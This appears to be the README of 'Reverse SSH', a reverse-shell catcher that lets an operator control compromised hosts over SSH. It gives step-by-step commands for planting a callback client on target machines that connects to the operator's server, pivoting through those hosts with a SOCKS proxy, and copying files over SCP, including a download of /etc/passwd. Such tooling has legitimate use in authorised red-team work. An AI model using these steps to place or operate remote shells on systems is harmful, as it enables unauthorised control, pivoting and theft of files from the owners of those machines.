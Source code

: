 # Reverse SSH

Ever wanted to use SSH to talk to your reverse shells? Well now you can. Essentially works like any reverse shell catcher thing. 
You, the human client connect to the reverse shell catcher with ssh, and then select which remote host you want to connect to. 

```
                    +----------------+                 +---------+
                    |                |                 |         |
                    |                |       +---------+ Shelled |
                    |    Reverse     |       |         |  Client |
                    |  Connection    |       |         |         |
                    |    Catcher     |       |         +---------+
+---------+         |                |       |
|         |         |                |       |
| Human   |         |                |  SSH  |         +---------+
| Client  +-------->+                <-----------------+         |
|         |         |                |       |         | Shelled |
+---------+         |                |       |         |  Client |
                    |                |       |         |         |
                    |                |       |         +---------+
                    |                |       |
                    |                |       |
                    +----------------+       |         +---------+
                                             |         |         |
                                             |         | Shelled |
                                             +---------+  Client |
                                                       |         |
                                                       +---------+
```


## Setup Instructions


```
make
```

Make will build both the `client` and `server` binaries. It will also generate a private key for the `client`, and copy it to the `authorized_controllee_keys` file.
If you need to build the client for a different architecture. 

```
GOOS=linux GOARCH=amd64 make client
```


You will need to create an `authorized_keys` file, containing *your* public key. 
This will allow you to control whatever server catches. 
```
cp ~/.ssh/id_ed25519.pub authorized_keys
./server 0.0.0.0:3232 #Set the server to listen on port 3232
```

Put the client binary on whatever you want to control. 
```
./client yourserver.com:3232
```

Then connect to your reverse shell catcher server:

```
ssh yourserver.com -p 3232
```

## Features

### Proxy

Using just the general dynamical forward `-D` flag you can proxy to your controlled hosts.

First you connect to your reverse shell catcher.

```
ssh -D 9050 catcher.com -p 3232
```

Then use the `proxy connect <remote_id>` command to connect to your reverse shell. 

```
catcher$ proxy connect 0bda3b12d3ce83f895632d412261073dc93dba3e 
Connected: 0bda3b12d3ce83f895632d412261073dc93dba3e
catcher$ 
```
After this, just point your tools/web browser to the socks5 port open on your local machine (in this example on port 9050) and you're away laughing.

You can obviously only proxy to one host at a time.


### SCP

You can transfer files to and from your controlled hosts using SCP. Essentially you address which host you want to download/upload to by `<ip_address>:<remote_id>:/path/here`.

e.g to upload the directory test to the host `0be2782caae4bedff780e14526f7618ab61e24fa`:
```
scp -r -P 3232 test catcher.com:0be2782caae4bedff780e14526f7618ab61e24fa:$(pwd -P)/test2
```

Or to download `/etc/passwd` from a host:

```
scp -P 3232 test catcher.com:0be2782caae4bedff780e14526f7618ab61e24fa:/etc/passwd
```

### Shell

On connection you will be presented by a list of controllable clients, e.g:
```
catcher$ ls
                    Targets
---------------------------------------------------------------------
| ID                                       | Hostname | IP Address  |
---------------------------------------------------------------------
| 0f6ffecb15d75574e5e955e014e0546f6e2851ac | wombo  | [::1]:45150 |
---------------------------------------------------------------------
```

Use `help` or press `tab` to view commands.  
Tab will auto complete entries. 
So you you wanted to connect to the client given in the example: 
```
> connect a<TAB>
```
Will auto complete the entry for you and on enter will connect you to your reverse shell. 

## Limitations

This doesnt work entirely correctly for windows programs, due to limitations of the windows platform. But you can still run commands. 
Although they might not end properly, or be ctrl+c-able

